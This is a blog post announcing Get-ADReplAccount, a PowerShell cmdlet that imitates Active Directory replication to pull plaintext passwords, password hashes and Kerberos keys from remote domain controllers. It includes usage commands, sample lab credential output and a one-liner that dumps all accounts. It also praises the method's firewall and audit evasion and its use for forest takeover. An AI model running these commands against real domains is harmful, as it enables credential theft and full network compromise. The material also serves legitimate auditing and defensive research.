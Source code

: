 ```yaml
---
id: 4251
title: Retrieving Active Directory Passwords Remotely
date: 2015-08-04T10:38:08+00:00
layout: post
lang: en
permalink: /en/retrieving-active-directory-passwords-remotely/
---
```

<p style="text-align: justify;">
  I&nbsp;have finally finished work on the <b>Get-ADReplAccount</b> cmdlet, the&nbsp;newest addition to&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a>, that&nbsp;can retrieve <a href="https://technet.microsoft.com/en-us/library/hh994559.aspx">reversibly encrypted plaintext passwords</a>, password hashes and&nbsp;Kerberos keys of&nbsp;all user accounts from&nbsp;remote domain controllers. This is&nbsp;achieved by&nbsp;simulating the&nbsp;behavior of&nbsp;the <strong>dcromo</strong> tool and&nbsp;creating a&nbsp;replica of&nbsp;Active Directory database through the&nbsp;<a href="https://msdn.microsoft.com/en-us/library/cc228086.aspx">MS-DRSR</a> protocol. Furthermore, it has these properties:
</p>

<li style="text-align: justify;">
  It does not even&nbsp;need the&nbsp;Domain Admins group membership. The&nbsp;<b>Replicating Directory Changes All</b> permission is&nbsp;more than&nbsp;enough for&nbsp;this cmdlet to&nbsp;do its job.
</li>
<li style="text-align: justify;">
  It opens door to&nbsp;other attacks, e.g.&nbsp;pass-the-hash, pass-the-ticket or&nbsp;PAC spoofing, that&nbsp;can be used to&nbsp;seize control of&nbsp;the entire Active Directory forest. Long live <a href="https://github.com/gentilkiwi/mimikatz">mimikatz</a>!
</li>
<li style="text-align: justify;">
  It cannot be effectively blocked by&nbsp;firewalls, because&nbsp;the&nbsp;directory replication service (the <a href="http://IDL_DRSGetNCChanges">DRSGetNCChanges</a> call to&nbsp;be more precise) shares the&nbsp;same port with other critical services, like user name resolution (exposed by&nbsp;the <a href="https://msdn.microsoft.com/en-us/library/ms675970(v=vs.85).aspx">DsCrackNames</a> call).
</li>
<li style="text-align: justify;">
  It only uses documented features of&nbsp;Active Directory and&nbsp;is&nbsp;not a&nbsp;hack per se.
</li>
<li style="text-align: justify;">
  It leaves only minimal footprint on Domain Conrollers and&nbsp;can be easily overlooked by&nbsp;security audits.
</li>

Usage example:

<pre class="lang:ps decode:true">Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP</pre>

Sample output:

<pre class="nums:false lang:default highlight:0 decode:true">DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222</pre>

<p style="text-align: justify;">
  You could even dump all accounts at once, but&nbsp;this can cause heavy (=suspicious) replication traffic:
</p>

<pre class="lang:ps decode:true ">Get-ADReplAccount -All -NamingContext 'DC=Adatum,DC=com' -Server LON-DC1</pre>